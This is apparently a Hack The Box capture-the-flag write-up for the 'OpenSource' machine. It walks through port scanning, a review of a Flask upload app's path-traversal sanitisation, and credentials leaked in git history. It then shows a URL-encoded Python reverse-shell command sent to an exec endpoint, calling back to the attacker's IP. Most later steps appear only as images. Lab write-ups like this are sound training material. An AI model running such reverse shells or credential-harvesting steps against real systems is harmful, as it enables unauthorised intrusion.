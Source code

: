 # OpenSource

**Date**: 24/05/2022

**Difficulty**: Easy

**CTF**: [https://app.hackthebox.com/machines/OpenSource](https://app.hackthebox.com/machines/OpenSource)

***

Let’s start with a ping

<figure><img src="../../.gitbook/assets/opensource0.png" alt=""><figcaption></figcaption></figure>

`ttl=63` so we are probably facing a Linux machine.

Let’s do a nmap port scan:

<figure><img src="../../.gitbook/assets/opensource1.png" alt=""><figcaption></figcaption></figure>

The TCP ports 22 and 80 are open, ssh and http, and there is a port (3000) that appears as filtered. Let’s do a detailed scan to try to obtain the services and their versions:

<figure><img src="../../.gitbook/assets/opensource2.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource3.png" alt=""><figcaption></figcaption></figure>

While the previous scan was taking place (it took around 2 minutes) I launched a whatweb scan to scan the website hosted in the port 80:

<figure><img src="../../.gitbook/assets/opensource4.png" alt=""><figcaption></figcaption></figure>

The OpenSSH build version is `7.6p1 Ubuntu 4ubuntu0.7`

<figure><img src="../../.gitbook/assets/opensource5.png" alt=""><figcaption></figcaption></figure>

According to launchpad, the target machine should be an Ubuntu Bionic.

The web server is something called Werkzeug… let’s investigate about it:

[https://werkzeug.palletsprojects.com/en/2.1.x/](https://werkzeug.palletsprojects.com/en/2.1.x/)

<figure><img src="../../.gitbook/assets/opensource6.png" alt=""><figcaption></figcaption></figure>

> WSGI is the Web Server Gateway Interface. It is a specification that describes how a web server communicates with web applications, and how web applications can be chained together to process one request.

Let’s see how it looks in the web-browser:

<figure><img src="../../.gitbook/assets/imagen (1).png" alt=""><figcaption></figcaption></figure>

Every link redirects to # except the buttons Download and Take me there:

<figure><img src="../../.gitbook/assets/opensource8.png" alt=""><figcaption></figcaption></figure>

Let’s click on Download first:

<figure><img src="../../.gitbook/assets/opensource9.png" alt=""><figcaption></figcaption></figure>

It starts the download of a compressed file that contains what it seems to be the source code of the upcloud software.

Now, let’s click on the button Take me there!:

<figure><img src="../../.gitbook/assets/imagen (2).png" alt=""><figcaption></figcaption></figure>

Let’s upload something:

<figure><img src="../../.gitbook/assets/opensource11.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource12.png" alt=""><figcaption></figcaption></figure>

Sooo… it uploaded the file to the target server and then shows you the url to view the file. Nice. It will not be that easy, but let’s try to upload a php-reverse-shell.php…

<figure><img src="../../.gitbook/assets/opensource13.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource14.png" alt=""><figcaption></figcaption></figure>

Hahahaha no, instead of interpret the php file it send it to us for download.

At this point, we have the source code of the application, so let’s try to see how it works and if there is any vulnerability we can exploit:

<figure><img src="../../.gitbook/assets/opensource15.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource16.png" alt=""><figcaption></figcaption></figure>

[Utils.py](http://utils.py) code contains interesting stuff. There are several functions that try to sanitize the filename of the file we will try to upload.

```python
def recursive_replace(search, replace_me, with_me):
    if replace_me not in search:
        return search
    return recursive_replace(search.replace(replace_me, with_me), replace_me, with_me)
```

The function `recursive_replace` is self-explained. It takes 3 arguments:

* `search`: String that will be sanitized
* `replace_me` : String that will be replaced
* `with_me` : String that will replace the previous one

```python
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")
```

The function `get_file_name` gets the input `unsafe_filename` and replaces every `../` with nothing using the `recursive_replace` function.

```python
def get_unique_upload_name(unsafe_filename):
    spl = unsafe_filename.rsplit("\\.", 1)
    file_name = spl[0]
    file_extension = spl[1]
    return recursive_replace(file_name, "../", "") + "_" + str(current_milli_time()) + "." + file_extension
```

This function gets the input `unsafe_filename` and does 2 things.

1. It splits the input using the most right `.` character
2. Then it sanitizes the filename (but not the extension) and concatenate both including between a string representing the current milliseconds)

```python
"""
TODO: get unique filename
"""
```

There is a comment about a feature that has not been developed yet. Maybe we can use this later… Maybe we can cause something if we try to upload 2 files with the same filename?

<figure><img src="../../.gitbook/assets/opensource17.png" alt=""><figcaption></figcaption></figure>

The views.py file has functions related to the file upload process:

```python
@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')
```

Ok, if we could name our file something like “../../../../../etc/passwd” the render template should return the passwd file due to directory traversal vulnerability. But the file name is being sanitized, replacing the “../” recursively with a blank string. Maybe we can find other string which can do the same function as “../../../../” (I don’t really know if it exists).

But first, let’s see what happens when we try to upload the same file twice (due to the TODO task), so we will upload the same file again, but changing it’s content. Previously the content of text.txt was “Hello world”, this time will be “Test”.

<figure><img src="../../.gitbook/assets/opensource18.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource19.png" alt=""><figcaption></figcaption></figure>

Interesting, the upload overwrites the previous file.

Ok, let’s use Burpsuite to try to manipulate the upload. I intercepted an Upload request and send it to the repeater:

<figure><img src="../../.gitbook/assets/opensource20.png" alt=""><figcaption></figcaption></figure>

It didn’t work well…

After MANY hours trying to bypass the sanitization of the recursive replacement function in get\_name… I started from other aproach:

If we list all files we downloaded:

<figure><img src="../../.gitbook/assets/opensource21.png" alt=""><figcaption></figcaption></figure>

We can see the .git folder, which indicates us that is a git repository. Let’s enumerate it!

First, let’s see if there are several branches:

<figure><img src="../../.gitbook/assets/opensource22.png" alt=""><figcaption></figcaption></figure>

Yep, we are in the public branch, but there is another one called dev, so we switched to it. Let’s read the logs:

<figure><img src="../../.gitbook/assets/opensource23.png" alt=""><figcaption></figcaption></figure>

There are some commits. Let’s see the difference between them:

<figure><img src="../../.gitbook/assets/opensource24.png" alt=""><figcaption></figcaption></figure>

Between the “ease testing” and “added gitignore”, there is nothing interesting.

<figure><img src="../../.gitbook/assets/opensource25.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource26.png" alt=""><figcaption></figcaption></figure>

But, between “ease testing” and “updated” there is a strange url with something that looks like credentials in a file called “settings.json” inside the .vscode folder.

```python
"python.pythonPath": "/home/dev01/.virtualenvs/flask-app-b5GscEs_/bin/python",
+  "http.proxy": "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/",
+  "http.proxyStrictSSL": false
```

Let’s

<figure><img src="../../.gitbook/assets/opensource27.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource28.png" alt=""><figcaption></figcaption></figure>

`http://10.10.11.164/exec?cmd=ping%20-c%201%2010.10.14.198`

<figure><img src="../../.gitbook/assets/opensource29.png" alt=""><figcaption></figcaption></figure>

`10.10.11.164/exec?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.14.198%22%2C1234))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call([%22%2Fbin%2Fsh%22%2C%22-i%22])%3B%27%0A`

<figure><img src="../../.gitbook/assets/opensource30.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource31.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource32.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource36.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource37.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource38.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource39.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource40.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource41.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource44.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource48.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource49.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource50.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource51.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource52.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource53.png" alt=""><figcaption></figcaption></figure>

psp

<figure><img src="../../.gitbook/assets/opensource54.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource55.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource56.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource57.png" alt=""><figcaption></figcaption></figure>
